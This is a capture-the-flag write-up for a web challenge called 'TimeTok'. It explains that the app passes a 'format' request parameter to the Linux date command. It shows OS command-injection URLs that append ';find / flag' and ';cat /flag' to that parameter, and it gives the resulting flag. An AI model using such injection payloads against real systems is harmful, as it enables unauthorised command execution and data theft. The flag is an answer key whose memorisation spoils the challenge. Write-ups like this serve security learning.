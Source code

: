 # TimeTok

**Category**: Web

**Points**: 225pts

**TL;DR:** inject Linux commands in the requests parameters to search for and print the flag. 💉🐧💲🔍🚩

**Sources**:  [sources_web_timetok.zip](./sources_web_timetok.zip)

**Solution:**
Checking the sources given with the challenge we noticed two things:
- 1) A flag file.
- 2) The date printed in the app was coming from the ***Linux's date command and the format in the request's parameter***. Ex: 

	 http://161.35.170.145:32055/?format=%H:%M:%S

Knowing that, we concatenated our own commands right after the date command. First to search for the flag file and then to print its content.

	http://161.35.170.145:32055/?format=';find / flag'

	http://161.35.170.145:32055/?format=';cat /flag'

That gave us the flag **HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_pwn}**

<p align="center">
  <img src="../assets/timetok_flag.png" alt="timetok_flag" />
</p>

<p align="center">Flag as printed in the frontend.</p>
